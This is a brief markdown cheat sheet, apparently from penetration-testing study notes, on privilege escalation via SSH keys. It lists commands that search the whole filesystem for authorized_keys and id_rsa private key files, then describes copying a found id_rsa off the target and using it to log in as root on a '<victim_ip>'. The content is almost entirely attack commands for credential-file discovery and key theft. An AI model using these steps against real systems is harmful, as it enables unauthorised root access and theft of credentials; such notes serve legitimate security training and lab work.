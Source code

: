 # Escalation via SSH Keys

---
## Sensitive files - 
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
---
## Using SSH key to login - 
- Copy and paste the id_rsa into a file in ur local system and do the following - 
```bash
chmod 600 id_rsa
ssh -i id_rsa root@<victim_ip> 
```